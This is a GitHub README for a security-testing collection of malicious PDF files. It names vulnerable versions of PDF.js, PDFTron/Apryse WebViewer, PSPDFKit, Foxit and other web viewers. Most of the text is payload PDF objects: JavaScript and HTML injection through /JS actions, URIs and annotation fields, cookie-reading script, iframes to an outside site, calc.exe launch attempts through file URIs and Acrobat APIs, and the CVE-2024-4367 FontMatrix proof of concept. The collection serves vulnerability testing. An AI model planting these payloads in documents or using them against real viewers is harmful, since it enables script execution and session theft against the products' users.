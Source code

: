 # Payloads All The PDFs

<a href="https://twitter.com/intent/follow?screen_name=evaristegal0is"><img src="https://img.shields.io/twitter/follow/evaristegal0is?style=social" alt="Follow @evaristegal0is"></a>

A list of crafted malicious PDF files to test the security of PDF readers and tools.</br>

**Blogpost:** [JavaScript-based PDF Viewers, Cross Site Scripting, and PDF files](https://gubello.me/blog/pdf-viewers-xss-and-pdf-files/)

### Vulnerabilities found

- [Foxit PDF SDK For Web](https://www.npmjs.com/package/@foxitsoftware/foxit-pdf-sdk-for-web-library) 7.5.0 (~600 weekly downloads)
- [PDFTron WebViewer](https://www.npmjs.com/package/@pdftron/webviewer) 7.2.0, 7.3.1, 8.6.1, 10.1.0, 10.7.2 (~87k weekly downloads)
- [PSPDFKit for Web](https://www.npmjs.com/package/pspdfkit) 2021.4.1 (~13k weekly downloads)
- [Syncfusion ej2-pdfviewer](https://www.npmjs.com/package/@syncfusion/ej2-pdfviewer) 20.2.40 (~6.8k weekly downloads)
- [React PDF viewer](https://www.npmjs.com/package/@react-pdf-viewer/core) 3.6.0 (~34k weekly downloads)
- [PDF.js](https://www.npmjs.com/package/pdfjs-dist) <= 4.1.392 (~2 million weekly downloads)

## Payloads list

### payload1.pdf

**Line 31**. Understand if [Acrobat Javascript APIs](https://www.adobe.com/content/dam/acom/en/devnet/acrobat/pdfs/AcrobatDC_js_api_reference.pdf) are supported.
```
/JS (app.alert\(1\); Object.getPrototypeOf(function*(){}).constructor = null; ((function*(){}).constructor("document.write('<script>confirm(document.cookie);</script><iframe src=https://14.rs>');"))().next();)
```

**Line 69**. Try to run arbitrary Javascript abusing the data URI scheme.
```
/URI (data:text/html,<script>alert\(2\);</script>)
```

**Line 177**. Try to inject Javascript code using annotations.
```
<</Type /Annot /Rect [284.7745656638 581.6814031126 308.7745656638 605.6814031126 ] /Subtype /Text /M (D:20210402013803+02'00) /C [1 1 0 ] /Popup 15 0 R /T (\">'><details open ontoggle=confirm\(3\)>) /P 6 0 R /Contents (��^@"^@>^@'^@>^@<^@d^@e^@t^@a^@i^@l^@s^@ ^@o^@p^@e^@n^@ ^@o^@n^@t^@o^@g^@g^@l^@e^@=^@c^@o^@n^@f^@i^@r^@m^@\(^@'^@X^@S^@S^@'^@\)^@>) >>
```

### payload2.pdf

**Line 69**. Try to run arbitrary Javascript abusing the data URI scheme.
```
/URI (\">'><details open ontoggle=confirm\(2\)>)
```

### payload3.pdf

**Line 31**. Understand if the PDF reader or tool runs arbitrary Javascript bypassing the Acrobat APIs.
```
/JS (app.alert\(1\); confirm\(2\); prompt\(document.cookie\); document.write\("<iframe src='https://14.rs'>"\);)
```

**Line 69**. Try to run remote commands on Windows.
```
/URI (file:///C:/Windows/system32/calc.exe)
```

### payload4.pdf

**Line 31**. Try to run remote commands on Windows by abusing Acrobat Javascript APIs.
```
/JS (app.alert\(1\); app.openDoc("/C/Windows/System32/calc.exe");)
```

**Line 69**. Try to run remote commands on Windows.
```
 /URI (START C:/\Windows/\system32/\calc.exe)
```

### payload5.pdf

**Line 31**. Try to run remote commands on Windows by abusing Acrobat Javascript APIs.
```
/JS (app.alert\(1\); app.launchURL\("START C:/\Windows/\system32/\calc.exe", true\); app.launchURL\("javascript:confirm\(3\);", true\);)
```

**Line 69**. Try to run arbitrary Javascript abusing the data URI scheme.
```
 /URI (javascript:confirm\(2\);)
```

### payload6.pdf

**Line 31**. Try to run remote commands on Windows by abusing Acrobat Javascript APIs.
```
 /JS (app.alert\(1\); app.launchURL\("/C/Windows/system32/calc.exe", true\); app.launchURL\("'><details open ontoggle=confirm\(3\);", true\);)
```

### payload7.pdf

**Line 50**. Try to run arbitrary Javascript injected via annotation. It works on vulnerable Apryse PDF Webviewer versions.
```
/V (">'></div><details/open/ontoggle=confirm(document.cookie)></details>)
```

### payload8.pdf

**Line 19**. Try to run arbitrary Javascript injected via `FontMatrix`. It works on vulnerable `PDF.js` versions. Proof-of-Concept created by [Rob Wu and Thomas Rinsma](https://codeanlabs.com/blog/research/cve-2024-4367-arbitrary-js-execution-in-pdf-js/).
```
<< /BaseFont /SNCSTG+CMBX12 /FontDescriptor 6 0 R /FontMatrix [ 1 2 3 4 5 (1\); alert\('origin: '+window.origin+', pdf url: '+\(window.PDFViewerApplication?window.PDFViewerApplication.url:document.URL\)) ] /Subtype /Type1 /Type /Font >>
```

___

![Hack the planet](img/hack_the_planet.gif)

If you want to support me you can offer me a coffee ☕</br></br>
<a href="https://www.buymeacoffee.com/gubello" target="_blank"><img src="https://bmc-cdn.nyc3.digitaloceanspaces.com/BMC-button-images/custom_images/orange_img.png" alt="Buy Me A Coffee" style="height: auto !important;width: auto !important;" ></a>
